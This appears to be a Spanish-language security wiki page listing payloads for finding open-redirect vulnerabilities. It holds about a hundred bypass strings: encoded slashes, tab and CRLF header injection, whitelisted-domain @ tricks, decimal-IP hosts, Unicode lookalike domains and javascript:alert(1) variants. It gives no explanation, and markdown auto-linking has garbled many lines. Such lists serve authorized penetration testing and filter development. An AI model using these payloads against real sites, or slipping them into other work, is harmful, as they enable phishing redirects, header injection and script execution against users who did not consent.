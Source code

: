 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Redirección

## <mark style="color:orange;">Cargas útiles para detectar el redireccionamiento abierto</mark>

<>//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
//;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
/////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//\
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
///\\;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
//\\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/.Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/\\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
/〱Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
.Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
\\/\\/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
〱Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ%00｡Ｐⓦ\
%01https://Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
%01[https://google.com](https://google.com/)\
////%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
///%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
//%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/%09/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
////%09/[google.com](http://google.com/)\
///%09/[google.com](http://google.com/)\
//%09/[google.com](http://google.com/)\
/%09/[google.com](http://google.com/)\
/%09/javascript​:alert(1);\
/%09/javascript​:alert(1)\
////%09/[whitelisted.com](http://whitelisted.com/)@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
///%09/[whitelisted.com](http://whitelisted.com/)@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
//%09/[whitelisted.com](http://whitelisted.com/)@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/%09/[whitelisted.com](http://whitelisted.com/)@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
////%09/[whitelisted.com@google.com](mailto:whitelisted.com@google.com)\
///%09/[whitelisted.com@google.com](mailto:whitelisted.com@google.com)\
//%09/[whitelisted.com@google.com](mailto:whitelisted.com@google.com)\
/%09/[whitelisted.com@google.com](mailto:whitelisted.com@google.com)\
&%0d%0a1Location:[https://google.com](https://google.com/)\
\152\141\166\141\163\143\162\151\160\164\072alert(1)\
%19Jav%09asc%09ript:https%20://[https://lnkd.in/g23S7aus](https://lnkd.in/g23S7aus)\
////[216.58.214.206](http://216.58.214.206/)\
///[216.58.214.206](http://216.58.214.206/)\
//[216.58.214.206](http://216.58.214.206/)\
/\\[216.58.214.206](http://216.58.214.206/)\
/[216.58.214.206](http://216.58.214.206/)\
[216.58.214.206](http://216.58.214.206/)\
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e\
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f\
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..\
%2f[216.58.214.206//](http://216.58.214.206/)\
%2f[216.58.214.206](http://216.58.214.206/)\
%2f[216.58.214.206](http://216.58.214.206/)%2f%2f\
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e\
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e\
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e\
/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e\
//%2f%2fⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/%2f%2fⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
%2f$2f[216.58.214.206](http://216.58.214.206/)\
$2f%2f[216.58.214.206](http://216.58.214.206/)%2f%2f\
%2f$2f3627734734\
$2f%2f3627734734%2f%2f\
//%2f%2fgoogle.com\
/%2f%2fgoogle.com\
$2f%2fgoogle.com\
%2f$[2fgoogle.com](http://2fgoogle.com/)\
$2f%2fgoogle.com%2f%2f\
%2f3627734734//\
%2f3627734734\
%2f3627734734%2f%2f\
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/\
/%2f%5c%2f%6c%6f%63%61%6c%64%6f%6d%61%69%6e%2e%70%77/\
%2fgoogle.com//\
%2fgoogle.com\
%2fgoogle.com%2f%2f\
////3627734734\
///3627734734\
//3627734734\
/\3627734734\
/3627734734\
3627734734\
//[3H6k7lIAiqjfNeN@whitelisted.com](mailto:3H6k7lIAiqjfNeN@whitelisted.com)@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
//[3H6k7lIAiqjfNeN@whitelisted.com](mailto:3H6k7lIAiqjfNeN@whitelisted.com)+@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/\
//[3H6k7lIAiqjfNeN@whitelisted.com](mailto:3H6k7lIAiqjfNeN@whitelisted.com)@[google.com/](http://google.com/)\
//[3H6k7lIAiqjfNeN@whitelisted.com](mailto:3H6k7lIAiqjfNeN@whitelisted.com)[+@google.com](mailto:+@google.com)/\
////%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
///%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
//%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
/%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\
////%5cgoogle.com\
///%5cgoogle.com\
//%5cgoogle.com\
/%5cgoogle.com\
//%5cjavascript​:alert(1);\
//%5cjavascript​:alert(1)\
/%5cjavascript​:alert(1);\
///%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ

